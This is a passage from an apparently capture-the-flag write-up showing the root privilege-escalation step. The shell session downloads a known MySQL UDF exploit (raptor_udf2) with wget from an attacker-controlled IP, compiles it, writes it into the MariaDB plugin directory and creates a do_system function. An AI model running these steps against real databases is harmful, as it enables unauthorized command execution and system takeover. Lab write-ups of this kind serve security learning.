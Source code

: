 Know the flag can be obtained and the way to the privilege escalation is clear

## Root flag

Since we have the root password for the SQL database let's just escalate from there with this known [exploit](https://www.exploit-db.com/exploits/1518)

```shell
bash-5.0$ wget 10.10.14.60:8000/1518.c
--2022-08-14 15:53:41--  http://10.10.14.60:8000/1518.c
Connecting to 10.10.14.60:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3378 (3.3K) [text/plain]
Saving to: ‘1518.c’

1518.c                           100%[==========================================================>]   3.30K  --.-KB/s    in 0s

2022-08-14 15:53:41 (8.72 MB/s) - ‘1518.c’ saved [3378/3378]

bash-5.0$ mv 1518.c raptor_udf2.c
bash-5.0$ gcc -g -c raptor_udf2.c
bash-5.0$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
bash-5.0$ mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 20303
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.014 sec)

MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)
MariaDB [mysql]> select @@plugin_dir;
+---------------------------------------------+
| @@plugin_dir                                |
+---------------------------------------------+
| /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------------------------------------+
1 row in set (0.000 sec)
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.000 sec)

MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.000 sec)
```